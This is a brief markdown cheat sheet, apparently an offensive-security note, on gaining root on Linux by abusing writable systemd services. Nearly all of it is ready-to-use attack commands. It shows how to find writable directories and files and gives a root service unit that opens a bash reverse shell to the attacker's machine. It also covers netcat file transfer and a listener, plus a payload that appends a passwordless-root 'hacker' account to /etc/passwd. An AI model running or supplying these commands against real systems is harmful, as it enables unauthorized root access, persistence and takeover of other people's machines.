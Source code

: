 #linux #priviledgeEscalation 

1. Find the services using below command or linpeas
```bash
find / -writable -type d 2>/dev/null | grep -Fv -e "/home/cmeeks" -e "/proc/" -e "/sys/"
```
and
```bash
find / -writable -type f 2>/dev/null | grep -Fv -e "/home/cmeeks" -e "/proc/" -e "/sys/"
```

2. Either configure a new service or  edit the existing one 

### Adding a new service 

```bash
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

###### Init the target listening the port

```
nc -vl 44444 > root.service
```

###### Send file to traget

```
nc -n TargetIP 44444 < root.service
```

###### Start listening

```
nc -lvnp 9999
```
##### Execute the payload(assume the file is under /dev/shm)

```
/bin/systemctl enable /dev/shm/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /dev/shm/root.service
Created symlink from /etc/systemd/system/root.service -> /dev/shm/root.service
```

```
/bin/systemctl start root
```
### Modify the existing one

1. add the shell payload and user root to below parameters
```bash
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KaliIP/9999 0>&1'
```

2.  Restart the service or the machine while listening in 9999 port.


### Adding a root user

```bash
User=root
ExecStart=/bin/bash -c 'echo hacker:$((mkpasswd -m SHA-512 myhackerpass || openssl passwd -1 -salt mysalt myhackerpass || echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> /etc/passwd'
```


